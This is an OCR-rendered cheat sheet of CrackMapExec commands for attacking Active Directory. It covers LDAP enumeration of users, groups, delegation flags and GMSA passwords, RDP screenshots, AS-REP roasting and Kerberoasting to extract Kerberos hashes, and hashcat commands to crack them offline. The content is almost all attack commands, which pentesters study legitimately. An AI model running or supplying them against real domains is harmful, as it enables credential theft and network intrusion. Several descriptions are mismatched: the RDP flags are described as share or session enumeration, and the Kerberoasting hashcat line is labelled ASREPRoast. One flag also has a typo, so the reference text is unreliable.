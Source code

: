 
---

## LDAP Enumeration

| **Command**| **Description**|
|-|-|
| `cme ldap <target> -u <u> -p <p> --users` | Enumerate enabled domain users. |
| `cme ldap <target> -u <u> -p <p> --groups` | Enumerate domain groups. |
| `cme ldap <target> -u <u> -p <p> --password-not-required` | Get the list of users with flag PASSWD_NOTREQD. |
| `cme ldap <target> -u <u> -p <p> --trusted-for-delegation` | Get the list of users and computers with flag TRUSTED_FOR_DELEGATION. |
| `cme ldap <target> -u <u> -p <p> ---admin-count` | Get objets that had the value adminCount=1. |
| `cme ldap <target> -u <u> -p <p> --get-sid` | Get domain sid. |
| `cme ldap <target> -u <u> -p <p> --gmsa` | Enumerate GMSA passwords. |

---

## RDP Enumeration

| **Command**| **Description**|
|-|-|
| `cme rdp <target> -u <u> -p <p> --nla-screenshot` | If NLA is disabled it will allow you to take a screenshot of the login prompt. |
| `cme rdp <target> -u <u> -p <p> --screenshot` | Enumerate active sessions on the target. |
| `cme rdp <target> -u <u> -p <p> --screentime <SCREENTIME>` | Enumerate permissions on all shares of the target. |
| `cme rdp <target> -u <u> -p <p> --res <RESOLUTION>` | Enumerate active sessions on the target. |

---

## Finding Accounts 

| **Command**| **Description**|
|-|-|
| `cme ldap <target_fqdn> -u <u> -p <p> --asreproast asreproast.out` | Retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required. | 
| `cme ldap <target_fqdn> -u <u> -p <p> --kerberoasting kerberoasting.out` | Retrieve the Kerberos 5 TGS-REP etype 23 hash using Kerberoasting technique. |
| `hashcat -m 18200 asreproast.out /usr/share/wordlists/rockyou.txt --force` | Module for Cracking ASREPRoast. | 
| `hashcat -m 13100 kerberoasting.out /usr/share/wordlists/rockyou.txt --force` | Module for Cracking ASREPRoast. | 

---